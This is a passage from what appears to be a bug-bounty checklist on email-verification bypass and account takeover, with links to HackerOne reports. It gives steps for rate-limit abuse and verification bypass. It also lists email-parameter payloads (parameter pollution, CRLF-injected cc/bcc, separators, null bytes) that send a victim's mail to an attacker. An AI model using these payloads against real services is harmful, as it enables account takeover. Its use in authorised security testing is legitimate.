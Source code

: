     <https://hackerone.com/reports/1406471>
    ```
    
- [ ] **[Ability to bypass partner email confirmation to take over any store given an employee email](https://hackerone.com/reports/300305)**
    
- [ ] **No Rate Limit when resend Email Confirmation**
    
    ```python
    try to click resend confirmation email request
    capture it 
    try to send it 50+ times
    
    <https://hackerone.com/reports/774050>
    ```
    
- [ ] **Broken Authentication To Email Verification Bypass**
    ```jsx
    # Broken Authentication To Email Verification Bypass 
    1) First You need to make a account & You will receive a Email verification link. 
    2) Application in my case give less Privileges & Features to access if not verified. 
    3) Logged into the Application & I change the email Address to Email B. 
    4) Verification Link was Send & I verified that. 
    5) Now I again Changed the email back to Email I have entered at the time of account creation. 
    6) It showed me that my Email is Verified. 
    7) Hence , A Succesful Email verfication Bypassed as I haven't Verified the Link which was sent to me in the time of account creation still my email got verified. 
    8) Didn't Receive any code again for verification when I changed back my email & When I open the account it showed in my Profile that its Verified Email.
    ```
- [ ] **ATO from manipulating the email Parameter**
```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d**  
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```
